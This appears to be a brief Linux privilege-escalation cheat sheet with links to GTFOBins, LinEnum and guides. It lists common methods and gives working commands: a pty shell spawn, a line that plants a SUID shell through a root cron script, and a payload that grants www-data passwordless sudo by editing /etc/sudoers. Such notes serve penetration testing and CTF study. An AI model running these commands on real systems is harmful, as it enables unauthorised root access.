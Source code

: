 # GTFOBin

https://gtfobins.github.io/

## LinEnum

https://github.com/rebootuser/LinEnum

## Restricted shell Bypass

https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf


Linux Privilege escalation
==========================

A typical Linux privilege escalation method is based on one of the following:

1. Exploiting services running as root
2. Exploiting SUID executables
3. Exploiting SUDO rights/user
4. Exploiting badly configured cron jobs
5. Exploiting users with "." in their path
6. Kernel Exploits

Kernel exploits are typically our last resort, as there is a risk that we crash the system in the process.

***1. Command to get bash shell from $***

$ python -c 'import pty; pty.spawn("/bin/bash");'  
user@machine:

## Double charcters

I'm guessing both terminals had stty echo, so you probably needed to Ctrl-Z and stty -echo on your local terminal and bg to get back to the remote shell.

**2. Identifcation methods**
1. Check su privileged files

2. Check cronjobs
cd /etc/cron* - Check all the folders

3. Check the programs avilable in the machine

which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/nul

**3. Using vulnerable cronjob running in root**

echo "cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit;chmod root:root /tmp/exploit">>/usr/local/sbin/cron-logrotate.sh

**4. Modifying sudoers file and provide nopasswd access for a low privileged user**

echo ‘chmod 777 /etc/sudoers && echo “www-data ALL=NOPASSWD: ALL” >> /etc/sudoers && chmod 440 /etc/sudoers’ > /tmp/update

**5. Command to writable directories in the restrictive shell**

find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;

**6 C program for priv esc

https://fuzzmymind.com/2019/05/29/suid-binary-exploit-a-primer/


